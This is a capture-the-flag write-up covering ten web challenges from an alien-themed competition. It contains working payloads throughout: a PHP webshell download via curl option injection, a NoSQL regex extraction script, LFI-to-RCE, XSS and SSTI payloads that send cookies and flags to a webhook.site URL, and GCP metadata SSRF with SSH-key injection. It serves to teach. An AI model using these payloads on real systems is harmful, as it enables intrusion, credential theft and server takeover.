

# Overview

The aliens have come to attack the earth and I had to hack into their web assets to stop their onslaught! I grabbed some friends from my university and some emus to form the team **EmusArmedWithLaptops** to hack into their assets. In the end, we were able to defeat 41 of the 62 challenges that the aliens presented, getting 51st place internationally and 2nd in Australia.


Personally, I focused on compromising their web assets that had a wide variety of vulnerabilities that were really fun to hack into. These exploits ranged from cross-site scripting (XSS), filter bypassing, MongoDB injection and exploiting Google Cloud Compute Engine! I will go into the details about my analysis, thought process and exploitation methodology for each of the web challenges that I solved.

---

# CaaS

| Flag | Solves |
|----------------- | ------------ |
| CHTB{f1le_r3trieval_4s_a_s3rv1ce} | 797 |

I have no idea why, but the aliens had a Curl as a Service (CaaS) web interface for their alien buddies to check the status of websites using `curl`. I guess they never heard of a terminal before...


Checking the source code for the website that was provided, we can see that `curl` is executed within the PHP class `CommandModel` using the URL given by the user.

```php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

The `escapeshellcmd` meant that I could not stack additional commands to the my URL. However, `escapeshellcmd` only mitigates stacked shell commands and **not command options**. The PHP function `escapedshellarg` should of been used instead by the aliens if they wanted their site to be secure.

To exploit, all I had to was point the CaaS to a PHP webshell and save the file onto the server using the following payload `https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o oWow3bsh3ll.php`.


---

# Wild Goose Hunt

| Flag | Solves |
|----------------- | ------------ |
| CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3} | 515 |

For Wild Goose Hunt, the first thing that I thought of was that it was vulnerable to MongoDB injection (also known as NoSQLi).

To test that it was vulnerable, I tried the authentication bypass using the NoSQLi payload. How I did this was by intercepting the POST request I sent when I tried to login to the admin account and modifying the POST parameter `password=something` to `password[$ne]=something`. The `[$ne]` tells the MongoDB to search for entries that **do not equal** the password that I sent, therefore it bypasses authentication and confirms that the site is vulnerable NoSQLi. With no surprise I bypassed the login and confirmed that NoSQLi was the way.


Now authentication bypass is great and all, but I still did not have the flag. This is because it is actually the password of the admin user. However, I can use regex to extract the password by character until I have the whole thing. How this works is by replacing the `password=` section within the POST request body to `password[$regex]=^`. The regex pattern `^` matches to the start of the string, so as an example if I sent `password[$regex]=^A` I would not be able to log in, but `password[$regex]=^C` would bypass the authentication since 'C' is the first character of the CTF flags (`CHTB{...}`). I could then keep on adding characters to this regex pattern until I have the full password. For more details check out [this resource](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection).

The exploit code that I wrote is down below. It can be a little slow, but gave me plenty of time to brew another coffee for the next challenges.

```python
import http.client,string,json,urllib.parse

username = "admin"
password = "CHTB{"

rhost_ip = '46.101.22.121'
rhost_port = 30748
exe = True
while exe:
    for char in string.printable:
        if char in ['*', '+', '.', '?', '|', '&']:
            continue
        c = "C"
        headers = {
                "Content-Type": "application/x-www-form-urlencoded"
        }
        body = 'username='+username+'&password[$regex]=^'+password+char
        c = http.client.HTTPConnection(rhost_ip, rhost_port)
        c.request('POST', '/api/login', body, headers)
        r = c.getresponse().read()

        r_json = json.loads(r)

        if r_json["message"] == "Login Successful, welcome back admin.":
            print(char)
            password = password + char
            print(password)
            if c == '}':
                exe = False
            break
```

---

# Extortion

| Flag | Solves |
|----------------- | ------------ |
| CHTB{th4ts_4_w31rd3xt0rt10n@#$?} | 192 |

This website appeared to be some platform for sending UFOs to extort humans. It had fairly limited functionality where you can view the different types of UFOs you could send or specify a custom one.

The first thing that I noticed was when you view the different types of UFO, you can see the PHP file where the information is stored in from the URL GET parameter. For an example `http://138.68.147.93:31724/?f=airship.php`. This tells me two things.

1. The file `airship.php` is most likely included to the `index.php` page using the PHP `include` function.
2. If there is no user input sanitisation, it can be leveraged as a Local File Inclusion (LFI) exploit.
3. If the server is vulnerable to LFI and uses PHP, it could be leveraged as a code execution exploit if I can include a file with user input that executes PHP code.

To test if it was vulnerable to LFI, I wanted to see if I can open the `/etc/passwd` file on the server by prepending a bunch of `../`, like `http://138.68.147.93:31724/?f=../../../../../../../etc/passwd`.



Noice it is vulnerable to LFI! Now I wanted to exploit the LFI vulnerability to trigger code execution by including either the log or PHP session files. First I used `wfuzz` to enumerate the linux file system by searching for common linux files.


I couldn't use any of these files since none of them would store any input from the user. The next thing I tried was searching for the log stream for `apache2` within `/proc/self/fd/<number>`. This was also fruitless as well.

Eventually, I revisited the website and noticed that a session cookie was set when I visited `/send.php`.


This is really significant since PHP saves the session data to the file system, meaning that I can include that instead to get my juicy code execution. However, now I need to find where PHP session files would be located. For PHP if a location is not specifically configured, the default location for session files would be at `/tmp/sess_<Session ID>`. For the above example, I tried including `/tmp/sess_e48321b716678ec1500331f0cab2b873`.


PERFECT! We can see that the data I sent previously is now stored in this session file, meaning that I can chuck in some PHP to start executing code, such as `<?php system("cat /etc/passwd");?>` to execute my commands. I did a little enumeration to locate the flag and quickly found it located in the website's root directory with the name `flag-<long string of random characters>.txt`. You can read this flag if you send `<?php system("cat flag*");?>` as the payload.


---

# The Galactic Times

| Flag | Solves |
|----------------- | ------------ |
| CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck} | 159|

The galactic times is main online newspaper for the attacking aliens.


Analysing the source code that was provided showed that there are two pages, a human readable one at `/` and an alien specific one at `/alien` that we wanted to access to get the flag. We can also see that there is a feedback functionality at `/feedback` and `/list` for viewing the feedback that is visited by an internal bot. Both `/alien` and `/list` can only be accessed from `localhost` so I could not directly view those pages. However, I quickly noticed that there was a XSS vulnerability that is triggered when the feedback is displayed at `/list`. The only problem is that the website had a *Content Security Policy* (CSP) which meant that I could not directly use inline JavaScript or use external sources.

CSP
```
Content-Security-Policy: default-src 'self';script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;font-src 'self' https://fonts.gstatic.com/;img-src 'self' data:;child-src 'none';object-src 'none'
```

However, this CSP had specified `unsafe-eval` for scripts from [https://cdnjs.cloudflare.com/](https://cdnjs.cloudflare.com/) (from the CSP: `script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;`). After a bit of research and [reading this article](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d), I realised that I can execute JavaScript using `angular.js`.

It took some time working on the payload, and I got myself stuck where I could see testing locally that the following code would work except for the final GET request where I would get the flag. I blame it on the fact I didn't have sufficient coffee in my system at this time of night.

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };fetch("http://127.0.0.1:1337/alien").then(response => response.text()).then(function(data) {var re = new RegExp("CHTB{(.*?)}");var flag=data.match(re)[1];fetch("https://webhook.site/a19fa9c5-13b1-4131-a33a-ffa664c64a14?p="+flag)});//');}} </div>
```

Fortunately, one of my team members stepped in and realised that I was being a bit of a "dumb dumb" and the CSP would be blocking the final request. However, we could use `document.location = "https://webhook.site/a19fa9c5-13b1-4131-a33a-ffa664c64a14?p="+flag` to get the flag instead. So the working payload was:

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };fetch("http://127.0.0.1:1337/alien").then(response => response.text()).then(function(data) {var re = new RegExp("CHTB{(.*?)}");var flag=data.match(re)[1];document.location = "https://webhook.site/a19fa9c5-13b1-4131-a33a-ffa664c64a14?p="+flag;});//');}} </div>
```


---

# Cessation

| Flag | Solves |
|----------------- | ------------ |
| CHTB{c3ss4t10n_n33d_sync1ng_#@$?} | 199|

This was a bit of a weird challenge were all I had to do was visit the page `/shutdown` to get the flag. However, there was a regex mapping that I needed to bypass.

```
regex_map http://.*/shutdown http://127.0.0.1/403
regex_map http://.*/ http://127.0.0.1/
```

The exploit was pretty simple, instead of putting in `http://138.68.182.108:31906/shutdown` you go to `http://138.68.182.108:31906//shutdown`. The regex does not match to `http://.*/shutdown` due to the extra `/`, but the website will still go to the shutdown page.


---

# pcalc

| Flag | Solves |
|----------------- | ------------ |
| CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!} | 143|

Oh boi this was a pretty fun challenge! The website was hosting a 'human usable' online calculator.


Analysing the source code revealed that this code is vulnerable to code execution due to the `eval` function, but it has a really pesky character filter that prevents any quotes or letters getting pass the `preg_match_all`.

````
<?php
class CalcModel
{
    public static function getCalc($formula)
    {
        if (strlen($formula) >= 100 || preg_match_all('/[a-z\'"]+/i', $formula)) {
            return '🤡 dont bite the hand that feeds you human 🤡';
        }
        try {
            eval('$pcalc = ' . $formula . ';');
            return isset($pcalc) ? $pcalc : '?';
        }
        catch (ParseError $err) {
           return "$err";
        }
    }
}

````

I did a bit of research about bypassing `preg_match_all` filters. However, I could not find anything useful that would bypass the character filter and have a payload less than 100 characters. I knew that my goal was to discover a way of building strings of letters so I will be able to construct functions and commands like `system(cat /*)`. So a few neat tricks about PHP are prerequisite before I explain the actual exploit.

* If you have a string and add `()` to the end of it, PHP will treat it like a function.
* `${}` allows you to embed variables, values or object properties into a string.

Now I turned to my good old friend **MATHS** to generate the strings I need. Using the example payload `system(cat /*)` I need to create the strings `system` and `cat /*` without any letters when the `preg_match_all` occurs. The reason why I have to do it for both segments instead for just `system(cat /*)` is because I want to trick to think that `system` is a function by adding brackets at the end of it (see one of the tricks I listed above). We can bypass the `preg_match_all` filter by using the **binary complement** of both strings since they would not have any letters in it. When we get to the `eval` function we will flip the bits of the strings again to get our original ones using the PHP operator `~`. Finally we chuck this all inside `${}` and use `()` to make PHP flip the bits of our payload first before executing the function.

Here is the python code that can be used to generate the payload `/?formula=${(~%8c%86%8c%8b%9a%92)((~%9c%9e%8b%df%d0%d5))}`.

```
def get_payload_component(orig_str):
    orig_bytes = orig_str.encode();
    return ''.join([hex(ord(x) ^ 0xff).replace("0x", "%") for x in orig_bytes])

orig_payload_1 = "system"
orig_payload_2 = "cat /*"

payload_1 = get_payload_component(orig_payload_1)
payload_2 = get_payload_component(orig_payload_2)

payload = "/?formula=${{(~{payload_1})((~{payload_2}))}}".format(
        payload_1=payload_1,
        payload_2=payload_2
)
print(payload)
```


---

# Alien Complient Form

| Flag | Solves |
|----------------- | ------------ |
| CHTB{CSP_4nd_Js0np_d0_n0t_alw4ys_g3t_al0ng} | 110|

This is another XSS challenge which at first seemed similar to *The Galactic Times* challenge, but I quickly realised that it was a completely different type of XSS attack. The goal for this challenge is to trigger a reflective XSS attack on the bot that visits the internal page `/list` and steal the flag from it's cookies. However, this time no external resources could be loaded in or accessed.

The first thing I noted that the API endpoint at `/api/jsonp` also had this really weird option for specifying a callback function from the GET parameter `callback`. So if the `/list` page called for `/api/jsonp?callback=alert(123)` instead of just `/api/jsonp`, I could execute JavaScript on the bots browser. I was able to do this by using an `iframe` to point back the the `/api/jsonp` to execute my XSS attack.

However, this introduced the next problem of exfiltrating the cookie from the bot so we can read the flag. I could not `fetch` any resources external to the website, so I could not simply send a HTTP request with the flag to a web hook. After a while, I realised that `/api/jsonp` also lists the feedback that is stored within the database. Therefore, if I get the bot to POST it's cookies as feedback I will be able to read it from `/api/jsonp`, but I had to be quick since the bot quickly wipes the database after it reads the feedback. To be as quick as possible I executed a bash script on my machine to try and grab the flag when it appeared. The final payload that got me the flag is below.

```
<iframe src="/list?callback=let x = {'complaint':document.cookie};fetch('/api/submit',{method:'post',headers:{'Content-Type':'application/json'},body:JSON.stringify(x)})" />
```

**bash command to get the flag**
```
while :; do curl -s http://138.68.177.159:30904/api/jsonp | grep CHTB; done
```


---

# Starfleet

| Flag | Solves |
|----------------- | ------------ |
| CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!} | 141 |

I never really liked being a human, so I decided to join the "Starfleet academy" to join the aliens. The only problem was that I got distracted hacking their site... When you visit the page you are just granted with a basic page with an email signup form.


When the user signs up for the "Starfleet academy", their email address is chucked into a string which is rendered using the `node` template engine `nunjucks` (see code snippet below). This to me screams out that it is vulnerable to Server-Side Template Injection (SSTI). SSTI is when you can execute code within the template engine, which can be leveraged to compromise the system.

```
message.html = nunjucks.renderString(`
                        <p><b>Hello</b> <i>${ emailAddress }</i></p>
                        <p>A cat has been deployed to process your submission 🐈</p><br/>
                        </p>
                        `, { gifSrc }
                    );
```

The only problem is that I did not have experience vulnerabilities with `node` before this. I have exploited other SSTI vulnerabilities in different template engines, but I had to do a bit of research to understand how to craft a payload that will allow me to run terminal commands. Eventually, I realised that the SSTI payload for Jade tempalte engine from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig) would be very similar for `nunjucks` since both engines run on `node`. My final payload for the email address is as folllows.

```
{{range.constructor("global.process.mainModule.require('child_process').execSync('curl -XPOST -d \"$(/readflag)\" https://webhook.site/a19fa9c5-13b1-4131-a33a-ffa664c64a14').stdout")()}}
```


---

# Bug Report

| Flag | Solves |
|----------------- | ------------ |
| CHTB{th1s_1s_my_bug_r3p0rt} | 208 |


Once again this is another XSS challenge with a different twist to the other ones. This time the website is a bug reporting page that visits the page that you provide. However, if you visit a page that does not exist it actually dumps the name of the invalid path straight into a html document; meaning that it can be used to execute JavaScript!


So instead of asking the internal bot to visit an external site, you get the bot to visit an non-existent page on the server to trigger the XSS payload. Once again I just used `fetch` to POST the cookie with flag to a webhook I had control over.

**Payload to submit on the report page**
```
http://127.0.0.1:1337/<script>var x = document.cookie;fetch('https://webhook.site/a19fa9c5-13b1-4131-a33a-ffa664c64a14',{method:'post',body:'test='+x})</script>
```


---

# gcloud pwn

| Flag | Solves |
|----------------- | ------------ |
| CHTB{l00k_4t_m3_n0w_I_0wn_4ll_th3_cl0ut!} | 23 |

This was challenge was one of my personal favourites from this CTF event. The challenge was exploiting a PDF viewer that was hosted on Google Cloud Platform (will be abbreviated as gcloud from now on). The first thing that I thought of when I saw this and read the description that the pdf viewer that the bot visiting the page used is vulnerable to Server-Side Request Forgery (SSRF). I tested if it was and by seeing if I could read `/etc/passwd` using an iframe, which I was able to do.


What this meant is that now I can access the internal gcloud metadata API with the domain `metadata.google.internal` to see if I can steal an access token. I found this [Hackerone report on exploiting a SSRF vulnerability in shopify](https://hackerone.com/reports/341876) very useful. The two key takeaways from this report and the [internal API documentation](https://download.huihoo.com/google/gdgdevkit/DVD1/developers.google.com/compute/docs/metadata.html) about how to use the gcloud API to collect information that I found were:

* When using the `metadata.google.internal` the `v1beta1` API needs to be used since it does not require a specific HTTP header like the `v1` API does.
* Using the GET parameter `alt=json` returns the API response as a JSON document.
* Using the GET parameter `recursive=true` allows you to recurse through the different attributes or properties that an instance or project has.
* The endpoint `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token` returns the current access token **for the instance**.
* You can list all of the attributes for a instance by sending a GET request to the endpoint `http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true&alt=json`.

Using this I quickly grabbed a valid access token for the instance, project name, location and instance name for the web server.


* **Project Name:** essential-hawk-310212
* **Location Zone:** us-central1-a
* **Instance Name:** instance-1

With this exfiltrated access token, it can be used to authorize access to other Google APIs using the `Authorization: Bearer <access token>` HTTP header. However, at this point I went into a massive rabbit hole for about an hour and a half. My mistake was that I started trying to see if I had access to other gcloud services using the access token I had, but I could not get in anywhere. My mistake was that I forgot that the access token was specifically for the instance itself. I realised my mistake when I listed the metadata for the instance again using the following curl command. I discovered this API endpoint when I was reading about managing [SSH keys on gcloud using the REST API](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#api_2).

```
curl -H "Authorization: Bearer <access token>" -H "Content-type: application/json" https://compute.googleapis.com/compute/v1/projects/essential-hawk-310212/zones/us-central1-a/instances/instance-1
```


It was at this point I realised I goofed up and I should of just been targetting the instance the whole time and not other services...

I decided to test if I could overwrite this entry in the metadata and insert my public SSH key instead. [Reading the documentation on managing the public SSH keys](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#api_2), I had to send a POST request to the API endpoint `https://compute.googleapis.com/compute/v1/projects/essential-hawk-310212/zones/us-central1-a/instances/instance-1/setMetadata` with the following JSON body.

**payload.json**
```json
{
	"items": [
		{
			"key": "ssh-keys",
			"value": "root:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPHugK49fy5Dzg9O+NTD34kpQ+3+CjaEj5P1MbhiAANZnkts5dt7Mmq0xf+UInKs7HyVhD3FfpwrRszvnqD39mGc4Eou66JVc1Tj9Hmhs0/hR8RDa0EmWvu0pG2ftehu/fiWutm1mGhKlsCW30wuCJkF7/4otSopkBCG2HD4ZaSToplZ4QhFVS+lIa9zItfYAK6zEXuD6R/Eont6VxK6mDiwijzydXFkWzpQcCe8GazEn4QBr0lh0KKosY26ELj6v/0aW1ZxlPD5Dg57RwBl3/Ae9V2D0rjZRKj8If8B9QQvovyt3M9jjnGv+KZGFVVowxmvZ5JN7B65UEQKHZMSKQB6bE2HCiW62wQm3th9KTXZR5hlzTj9prEx3l0IjsOwyVe5Di1NPFwbKcY8fauCjsK4Tb7QkjV46LGdQ2a+JdfjxKCFfpi1ZSNC9aHLBZtpeq/5Any+Wbw14GaiGrjSSXFhKFZMmzGlkJh1hQ8UXWWGOdsU4O+GJRFaS8UT61Cr0= makelarissub@hackthebox.eu"
		}
	],
	"fingerprint" : "3OBr4seS2Vk="
}
```

The value for `ssh-keys` has to be in the format of `<username>:<public ssh key>` and the `fingerprint` parameter is obtained from a GET request to `https://compute.googleapis.com/compute/v1/projects/essential-hawk-310212/zones/us-central1-a/instances/instance-1` that is used to prevent simultaneous changes to metadata that is shown below.

```
"metadata": {
    "fingerprint": "3OBr4seS2Vk=",
    "items": [
      {
        "key": "sshKeys",
        "value": "root:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD0fVPxASQe90gLUXWjnCjJsLOsUMw/mPTOCdJzM0IeM/EBFOYPeuF2bR2f/8FKkhX5WOGnvoWReCLKHV5xz7kwq63E9JU5I3vfObsEd5R3glyf7wEPOB0+/gaebldTERAlMDcTOlRwbYD+JILUrlqWGIskt/pcPP3TWeu2STErxcdQaJQc+5cZlOzLLPeKNQUel3otqIV4Bwr914uAuy3fe3gpLH2irEyPByQdpanyhiZZXIAdlPcR5E9AEosRHPmSBA9pn+O3/V7pfBND1V04q4AGrXMuLaDw019A7Xc1fSE2j3zWB5/FgEtYoKnI81BHPOQCqtAZ941kzdF4Zs3X/DrVraYEHD13yRtCmogrj0Iot1R4ABkUXEPLyNkqgYQV55vag9caUUwJUxU2AhldHK1NVErVndCTwu6VNBLgaJJy8iiln4EIBB3Ynb5qTsC/xKYLCjF1+2NxDeGMrrF7c5lwIUJzZIF2P+Rn2V2NDpEHOsJXsSpsGPBgxHbGDj0= jusepe@nix\nunknown1:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDRnJrXGPgJi3sAmmtOIL1yiorFOQ4U9CIsI0OWds7izDtsPWXvinIQOpqxxWRXwdKc0Ye3vCN1L9imjmQ0ILN0UEQsCmZfxrlYBFsS8VpJbIwkewFSRTMirZ4IFN84twVWRHJiFZ0RGzIDlW8q/XA16iUygiS+ehGl/SyA9DwZwWZfLDRLkvj8O+widR6qlTu9juANWxO8klwsk06qilQ/k2y1dCzAI0LNGybmLHonaqJY35E80xSzZHPFDQIDSM1gYtGkcuiVGCE3VufdVhZHqGSI1L4MlPmjEnRlRGhINsoWl6eI0Ltw+QUdTh+zrQJvPhFg3NDbTILmRdL/m2LpxxQ9vG7pZmB41uRmkm+4UZgLPZiQGSWVaosbYADWXB6DXTBpMW5jatwtUtI3oiM6SdfC4DIdU/tlQ/L30MMhuds/V7om/izbxYGh2oKFgnVYGr5d5c3cMHTNfr8kjdn+TDQnEyRlBxUIOMd5pff4pzfyP4Pxorz03ZoEUruI4J8= unknown1@Macbook-makelaris.local"
      }
    ],
    "kind": "compute#metadata"
  }
```

Finally, to inject my public SSH key I used the following `curl` command to update the metadata for SSH keys.

```
curl -H "Authorization: Bearer <access token>" -H "Content-type: application/json" -d @payload.json https://compute.googleapis.com/compute/v1/projects/essential-hawk-310212/zones/us-central1-a/instances/instance-1/setMetadata
```


Once that was done, I could SSH into the server with the account `root` using my own private key and grab the flag from `/root/pdfservice/flag`.


